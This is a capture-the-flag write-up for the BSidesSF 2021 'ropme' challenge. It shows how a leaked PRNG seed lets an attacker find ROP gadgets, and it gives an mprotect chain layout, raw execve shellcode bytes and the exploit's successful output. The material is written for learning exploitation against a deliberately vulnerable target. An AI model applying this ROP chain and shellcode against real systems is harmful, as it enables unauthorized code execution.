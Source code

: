 ## ropme (BSIDESSF2021)

I didn't really participate in the ctf, but I found this challenge to be  
interesting and since not many teams solved it/posted writeups I decided to  
post my solution. It's probably not the most elegant - if you solved it in a  
different way I'd love to hear about it.

In this writeup, I'm assuming you have a basic understanding of x86
architecture, return oriented programming, and the Linux API.

## Exploitable Service

We're given a service binary and its source code.

```bash  
[joey@gibson]$ file ropme  
ropme: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0,
BuildID[sha1]=b82649cdb66e4b3f92ea5fd28e374b5793cb9f26, not stripped  
```

The target binary is a 32-bit ELF. This will be useful when we are writing our  
exploit. Let's take a look at the important parts of the source code.

```C  
// Generate a random block of +rwx memory that'll be filled randomly  
uint32_t *random_code = mmap((void*)CODE_START, CODE_LENGTH,  
                               PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

// Allocate memory for the user to send us a stack - it's just +rw  
uint8_t  *stack = mmap((void*)STACK_START, STACK_LENGTH, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

...

alarm(TIME);

// Set the randomness in stone at the outset  
time_t t = time(NULL);

// Immediately let the user know how much time they have  
printf("The current time is: %ld\n", t);  
printf("You have %d seconds to make this work\n", TIME);

// Populate the random code block using a predictable RNG  
int i;  
srand(t);  
for(i = 0; i < CODE_LENGTH / 4; i++) {  
   random_code[i] = rand();  
}

```  
The service allocates two memory regions:

* `random_code` with read, write, and exec permissions at address  
     `CODE_START` (`0x13370000`)  
  
* `stack` with just read and write permissions and an address chosen by the  
     system (`STACK_LENGTH` is `NULL`)

The program uses `time(2)` to generate the seed for pseudo-random number  
generation and conveniently tells the client what that seed is. It proceeds to  
fill `random_code` memory region with (you guessed it!) pseudo-random 32-bit  
numbers.

Finally the service reads `STACK_LENGTH` bytes of user input into the `stack`  
region, uses `asm(3)` to clear all of the registers, set the stack pointer  
(`esp`) to the `stack` memory region and immediately `ret`'s.

What's going on here? Essentially, a contrived example of a stack overflow  
vulnerability, exploitable via Return Oriented Programming (ROP). Instead of  
writing a vulnerable program, the author of this challenge cut to the chase  
and generated an artificial stack for our exploit. The first thing that
happens  
after we populate that stack is the `ret` operation, so we already control the  
instruction pointer (`eip`) with the first four bytes of our input.

## Dumpster diving for gadgets

We control `eip` but the only place we can reliably jump to is the
`random_code`  
memory region, filled with junk. Lots of interesting things can be found in
the  
junk!

Turns out if you generate `0x500000` of pseudo-random bytes, *some* of those  
bytes will happen to be ROP gadgets. Remember that we are handed over the seed  
for pseudo-random number generation, which means we can recreate `random_code`  
locally (even if we weren't given the seed - one second is a *long* time - we  
could call `time(2)` locally and get the same result).

The exploitation plan is straightforward - generate the same random  
memory that the service did and find the necessary gadgets for our ROP chain.  
There's only one problem - our ROP gadgets can't be too long. The longer  
the instruction the less chances we have of finding it in the randomly  
initialized memory.

What happens if not all gadgets are present? We just try again! I wrapped my  
exploit with a shell script that kept trying until the exploit was successful.  
Through trial and error I found that we can find any two-byte gadget
(including  
`ret`) with every attempt. A three-byte gadget already calls for some  
bruteforcing, so we must keep those to a minimum (my ROP chain ended up having  
two three-byte gadgets - I bet there's a better solution out there).

## Exploit methodology

The goal of this challenge is to read the contents of `/home/ctf/flag.txt`. As  
is often the case with restricted exploitation environment, instead of
attacking  
this problem head-on, we will modify the environment to make exploitation  
easier for us. We have full control over the stack, but it is set as  
non-executable. Our ROP chain will have to change the `stack` memory region  
permissions to executable. Then we simply jump into the stack and execute the  
second stage shellocde, which will read the flag for us.

To change permissions of a memory region, we utilize the `mprotect(2)` system  
call. If you've read the man page you know that `mprotect` might expect a  
page-aligned address and length. Since we  
don't know the stack address, the first thing our ROP chain needs to do is
grab  
the stack address from the stack pointer. As this is our first operation,
`esp`  
will be pointing at `stack+4`, so we decrement `ebx` four times. Now we pop
the  
rest of the arguments and the syscall number to the respective registers and
run  
`int 0x80` (remember we're dealing with a 32-bit system).

Here is the list of gadgets we're looking for:

```asm  
; gadget 0  
; used to grab the stack address  
89 e3   mov ebx, esp  
c3      ret

; gadget 1  
; used to page align the stack address  
4b      dec ebx  
c3      ret

; gadget 2  
; used for syscall parameter loading  
58      pop eax  
c3      ret

; gadget 3  
; used for syscall parameter loading  
59      pop ecx  
c3      ret

; gadget 4  
; used for syscall parameter loading  
5a      pop edx  
c3      ret

; gadget 5  
; everyone's favorite interrupt  
cd 80   int 0x80  
c3      ret

; gadget 6  
; jump to our second stage shellcode  
ff e4   jmp esp  
```  
The stack layout will look like this:  
```C  
       *((uint32_t *)(exploit+0)) = mov_ebx;   // address of mov ebx, esp gadget  
       *((uint32_t *)(exploit+4)) = dec_ebx;   // address of dec ebx gadget  
       *((uint32_t *)(exploit+8)) = dec_ebx;  
       *((uint32_t *)(exploit+12)) = dec_ebx;  
       *((uint32_t *)(exploit+16)) = dec_ebx;  
       *((uint32_t *)(exploit+20)) = pop_eax;  // address of pop eax gadget  
       *((uint32_t *)(exploit+24)) = 125; // __NR_mprotect  
       *((uint32_t *)(exploit+28)) = pop_ecx;  // address of pop ecx gadget  
       *((uint32_t *)(exploit+32)) = 4096; // page-aligned stack size  
       *((uint32_t *)(exploit+36)) = pop_edx;  // address of pop edx gadget  
       *((uint32_t *)(exploit+40)) = (PROT_EXEC|PROT_WRITE|PROT_READ);  
       *((uint32_t *)(exploit+44)) = int_80;   // address of int 0x80 gadget  
       *((uint32_t *)(exploit+48)) = jmp_esp;  // address of jmp esp gadget  
```  
Upon returning from `mprotect` we should be able to jump to `esp`. There's a  
caveat. The calling convention uses the stack for arguments, but we're already  
using the stack for our code. We need a new stack! Seems obvious, but I took  
that for granted and spent an hour wondering why my exploit was coring.  
Fortunately, we can just use `random_code` segment as our new stack. The first  
order of business in our second stage shellcode will be to move an address in  
`random_code` into `esp`. Besides that it's just a vanilla `execve` shellcode  
that's going to cat the flag.

```C  
   0xbc, 0x00, 0x00, 0x38, 0x13,       // mov    esp,0x133800000 ; new stack  
   0x6a, 0x0b,                         // push   0xb  
   0x58,                               // pop    eax  
   0x31, 0xd2,                         // xor    edx,edx  
   0x52,                               // push   edx  
   0x68, 0x2f, 0x63, 0x61, 0x74,       // push   0x7461632f  
   0x68, 0x2f, 0x62, 0x69, 0x6e,       // push   0x6e69622f  
   0x89, 0xe3,                         // mov    ebx,esp  
   0x68, 0x78, 0x74, 0x00, 0x00,       // push   0x7478  
   0x68, 0x61, 0x67, 0x2e, 0x74,       // push   0x742e6761  
   0x68, 0x66, 0x2f, 0x66, 0x6c,       // push   0x6c662f66  
   0x68, 0x65, 0x2f, 0x63, 0x74,       // push   0x74632f65  
   0x68, 0x2f, 0x68, 0x6f, 0x6d,       // push   0x6d6f682f  
   0x89, 0xe1,                         // mov    ecx,esp  
   0x52,                               // push   edx  
   0x51,                               // push   ecx  
   0x53,                               // push   ebx  
   0x89, 0xe1,                         // mov    ecx,esp  
   0xcd, 0x80,                         // int    0x80  
   0x6a, 0x01,                         // push   0x01  
   0x58,                               // pop    eax  
   0x31, 0xdb,                         // xor    ebx, ebx  
   0xcd, 0x80,                         // int    0x80  
```

Let's see the exploit in action:

```shell  
[joey@gibson]$ ./exploit  
=== Generating random memory with seed 1615121940  
...  
=!!= Found EBX mov gadget @ 0x135e533c  
=!!= Found INT 0x80 gadget @ 0x1385c0c8  
=-= All gadgets are present! Sending the exploit..  
CTF{bounce_bounce_bounce}  
```

Original writeup
(https://github.com/v-rzh/ctf_writeups/tree/main/bsidessf21_ropme).
